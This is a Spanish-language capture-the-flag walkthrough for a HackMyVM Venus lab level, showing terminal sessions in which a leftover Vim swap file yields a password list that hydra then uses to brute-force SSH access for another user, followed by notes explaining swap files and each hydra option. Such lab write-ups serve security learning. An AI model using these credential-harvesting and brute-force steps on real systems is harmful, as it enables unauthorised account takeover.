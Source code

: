 ### Level Goat
Seems that ariel dont save the password for lola, but there is a temporal file.
### User
**ariel**
### Credentials
ssh hacker@venus.hackmyvm.eu -p 5000
pass: **havefun!**
### Solution
```shell
TERMINAL 1

ariel@venus:~$ ls -la
total 44
drwxr-x--- 2 root  ariel  4096 Jul 26 08:54 .
drwxr-xr-x 1 root  root   4096 Jul 26 08:53 ..
-rw-r--r-- 1 ariel ariel   220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 ariel ariel  3526 Apr 23 21:23 .bashrc
-rw-r----- 1 root  ariel 12288 Jul 26 08:54 .goas.swp
-rw-r--r-- 1 ariel ariel   807 Apr 23 21:23 .profile
-rw-r----- 1 root  ariel    31 Jul 26 08:53 flagz.txt
-rw-r----- 1 root  ariel   254 Jul 26 08:53 mission.txt
ariel@venus:~$ 
ariel@venus:~$ cat .goas.swp 
k�����}jWD1pad�eb11~teste/goas
           �������snmk[K;qkBjHcaJqkBjHcaJqkBjHcaJ-->VVjqJGRrnfKmcgD-->bnQgcXYamhSDSff-->QsymOOVbzSaKmRm-->cbjYGSvqAsqIvdg-->LkWReDaaLCMDlLf-->DabEJLmAbOQxEnD-->mYhQVLDKdJrsIwG-->d3LieOzRGX5wud6-->EKvJoTBYlwtwFmv-->PEOppdOkSqJZweH-->rSkPlPhymYcerMJ-->GBUguuSpXVjpxLc-->NdnszvjulNellbK-->IaOpTdAuhSjGZnu-->RGBEMbZHZRgXZnu--rxhKeFKveeKqpwp-->cOXlRYXtJWnVQEG-->ppkJjqYvSCIyAhKThats my little DIc with my old and current passw0r

ariel@venus:~$ file .goas.swp 
.goas.swp: Vim swap file, version 8.2, pid 2299, user teste, host deb11, file ~teste/goas, modified
ariel@venus:~$ 

ariel@venus:~$ vim -r .goas.swp 
ariel@venus:~$ cd /tmp/omsi/      

ariel@venus:~$ cat /tmp/omsi                                                                                                                 
Thats my little DIc with my old and current passw0rds:                                                                  
-->ppkJjqYvSCIyAhK
-->cOXlRYXtJWnVQEG
--rxhKeFKveeKqpwp
-->RGBEMbZHZRgXZnu
-->IaOpTdAuhSjGZnu
-->NdnszvjulNellbK
-->GBUguuSpXVjpxLc
-->rSkPlPhymYcerMJ
-->PEOppdOkSqJZweH
-->EKvJoTBYlwtwFmv
-->d3LieOzRGX5wud6
-->mYhQVLDKdJrsIwG
-->DabEJLmAbOQxEnD
-->LkWReDaaLCMDlLf
-->cbjYGSvqAsqIvdg
-->QsymOOVbzSaKmRm
-->bnQgcXYamhSDSff
-->VVjqJGRrnfKmcgD


TERMINAL 2

┌──(kali㉿kali)-[~]
└─$ hydra -l lola -P list venus.hackmyvm.eu -s 5000 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 23:48:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:1/p:18), ~2 tries per task
[DATA] attacking ssh://venus.hackmyvm.eu:5000/
[5000][ssh] host: venus.hackmyvm.eu   login: lola   password: d3LieOzRGX5wud6
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-02 23:48:52
                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 



TERMINAL 1

ariel@venus:~$ su lola
Password: 
lola@venus:/pwned/ariel$ cd ~
lola@venus:~$ cat flagz.txt 
8===TMYRw853hx8yKRocFMgM===D~~
lola@venus:~$ 

```
### Summary

### .swp
Un archivo con la extensión ".goas.swp" es un archivo de intercambio (swap) creado por el editor de texto Vim.

Cuando estás editando un archivo con Vim, se crea un archivo de intercambio con la extensión ".swp" para almacenar temporalmente los cambios que aún no se han guardado en el archivo original. El archivo de intercambio se utiliza como una medida de seguridad en caso de que ocurra algún fallo o cierre inesperado del editor.

Es importante destacar que los archivos de intercambio (.swp) generados por Vim son archivos temporales y no deberían ser compartidos o versionados, ya que están destinados a ser utilizados solo por el editor Vim.

el comando vim tiene una opción -r para restaurar estos archivos temporales 

### hydra
El comando "[hydra](https://www.google.com/search?q=hydra)" es una herramienta de línea de comandos en Linux que se utiliza para realizar ataques de fuerza bruta o de diccionario en diversos servicios y protocolos de red.

En el comando específico "[hydra -l lola -P list venus.hackmyvm.eu -s 5000 ssh](https://www.google.com/search?q=hydra%20-l%20lola%20-P%20list%20venus.hackmyvm.eu%20-s%205000%20ssh)", se está utilizando hydra para atacar el servicio SSH en el servidor "[venus.hackmyvm.eu](https://www.google.com/search?q=venus.hackmyvm.eu)". Veamos qué hace cada parte del comando:

- "[hydra](https://www.google.com/search?q=hydra)": Es el nombre del comando utilizado para ejecutar la herramienta Hydra.
- "[-l lola](https://www.google.com/search?q=-l%20lola)": Especifica el nombre de usuario a utilizar en el ataque. En este caso, el nombre de usuario es "lola".
- "[-P list](https://www.google.com/search?q=-P%20list)": Especifica el archivo de lista de contraseñas a utilizar en el ataque. En este caso, se está utilizando un archivo llamado "list" que contiene las contraseñas a probar.
- "[venus.hackmyvm.eu](https://www.google.com/search?q=venus.hackmyvm.eu)": Es el objetivo del ataque, es decir, el servidor al que se está intentando acceder.
- "[-s 5000](https://www.google.com/search?q=-s%205000)": Especifica el puerto a utilizar en el ataque. En este caso, se está utilizando el puerto 5000.
- "[ssh](https://www.google.com/search?q=ssh)": Indica el protocolo o servicio que se está atacando. En este caso, se trata del servicio SSH.

En resumen, este comando de Hydra intentará realizar un ataque de fuerza bruta al servicio SSH en el servidor "[venus.hackmyvm.eu](https://www.google.com/search?q=venus.hackmyvm.eu)" utilizando el nombre de usuario "lola" y una lista de contraseñas especificada en el archivo "list". La opción "[-s 5000](https://www.google.com/search?q=-s%205000)" indica que el ataque se realizará en el puerto 5000. Es importante destacar que realizar un ataque de fuerza bruta sin permiso es ilegal y éticamente incorrecto.